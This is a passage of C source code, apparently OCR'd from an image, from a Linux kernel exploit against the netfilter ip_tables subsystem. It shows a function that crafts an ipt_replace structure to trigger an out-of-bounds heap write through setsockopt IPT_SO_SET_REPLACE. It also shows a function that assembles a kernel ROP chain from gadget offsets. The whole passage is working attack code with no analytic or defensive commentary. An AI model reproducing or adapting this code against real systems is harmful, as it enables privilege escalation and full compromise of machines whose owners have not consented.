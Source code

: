 ```c
        perror("[-] read");
        return -1;
      }
    }
  }
  return 0;
}

int trigger_oob_write(int s) {
  struct __attribute__((__packed__)) {
    struct ipt_replace replace;                     // 0x60
    struct ipt_entry entry;                         // 0x70
    struct xt_entry_match match;                    // 0x20
    char pad[0x108 + PRIMARY_SIZE - 0x200 - 0x2];           //  kvmalloc_size = sizeof(xt_table_info) + ipt_replace->size =  0x40 + (0xFB8 - 0x2) = 0xFF8 - 0x2
    struct xt_entry_target target;                  // 0x20
  } data = {0};

  data.replace.num_counters = 1;
  data.replace.num_entries = 1;
  data.replace.size = (sizeof(data.entry) + sizeof(data.match) +
                       sizeof(data.pad) + sizeof(data.target));             // 0x70 + (0x108+0x1000-0x200-0x2) + 0x20 + 0x20 = 0xFB8 - 0x2

  data.entry.next_offset = (sizeof(data.entry) + sizeof(data.match) +
                            sizeof(data.pad) + sizeof(data.target));        // Size of ipt_entry + matches + target
  data.entry.target_offset =
      (sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad));         // Size of ipt_entry + matches

  data.match.u.user.match_size = (sizeof(data.match) + sizeof(data.pad));   // 0x20 + (0x108+0x1000-0x200-0x2) = 0xF28 - 0x2
  strcpy(data.match.u.user.name, "icmp");
  data.match.u.user.revision = 0;

  data.target.u.user.target_size = sizeof(data.target);                     // 0x20
  strcpy(data.target.u.user.name, "NFQUEUE");
  data.target.u.user.revision = 1;

  // Partially overwrite the adjacent buffer with 2 bytes of zero.
  if (setsockopt(s, SOL_IP, IPT_SO_SET_REPLACE, &data, sizeof(data)) != 0) {
    if (errno == ENOPROTOOPT) {
      printf("[-] Error ip_tables module is not loaded.\n");
      return -1;
    }
  }

  return 0;
}

// Note: Must not touch offset 0x10-0x18.
void build_krop(char *buf, uint64_t kbase_addr, uint64_t scratchpad_addr) {
  uint64_t *rop;
  *(uint64_t *)&buf[0x39] = kbase_addr + POP_RSP_RET;
  *(uint64_t *)&buf[0x00] = kbase_addr + ADD_RSP_D0_RET;

  rop = (uint64_t *)&buf[0xD8];

  // Save RBP at scratchpad_addr.
  *rop++ = kbase_addr + ENTER_0_0_POP_RBX_POP_R12_POP_RBP_RET;                  // enter 0, 0 ; pop rbx ; pop r12 ; pop rbp ; ret 
  *rop++ = scratchpad_addr; // R12
```